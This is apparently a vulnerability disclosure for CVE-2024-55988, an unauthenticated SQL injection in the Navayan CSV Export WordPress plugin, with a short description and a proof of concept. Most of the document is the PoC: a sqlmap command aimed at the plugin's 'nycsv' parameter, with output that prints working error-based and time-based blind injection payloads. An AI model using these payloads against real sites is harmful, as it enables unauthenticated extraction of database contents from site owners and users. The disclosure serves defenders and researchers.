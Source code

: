 # CVE-2024-55988
Navayan CSV Export <= 1.0.9 - Unauthenticated SQL Injection

# Description

The Navayan CSV Export plugin for WordPress is vulnerable to SQL Injection in versions up to, and including, 1.0.9 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.  This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

## Details

- **Type**: plugin
- **Slug**: navayan-csv-export
- **Affected Version**: 1.0.9
- **CVSS Score**: 9.8
- **CVSS Rating**: Critical
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
- **CVE**: CVE-2024-55988
- **Status**: Closed

POC
---

```
python3 sqlmap.py -u 'https://wp-dev.ddev.site:443/wp-admin/tools.php?page=navayan-csv-export&nycsv=wp_options' --level=3 --risk=2 --dbms='MySQL '
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.12.2#dev}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:45:56 /2025-01-03/

[10:45:56] [INFO] testing connection to the target URL
[10:45:56] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: nycsv (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: page=navayan-csv-export&nycsv=wp_options WHERE 9587=9587 AND (SELECT 1506 FROM(SELECT COUNT(*),CONCAT(0x716a717071,(SELECT (ELT(1506=1506,1))),0x7178716a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- azsa

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=navayan-csv-export&nycsv=wp_options WHERE 2342=2342 AND (SELECT 1960 FROM (SELECT(SLEEP(5)))CqNL)-- sdgN
---
[10:45:56] [INFO] testing MySQL
[10:45:56] [WARNING] reflective value(s) found and filtering out
[10:45:56] [INFO] confirming MySQL
[10:45:56] [INFO] the back-end DBMS is MySQL
web application technology: Nginx
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[10:45:56] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 5 times
```

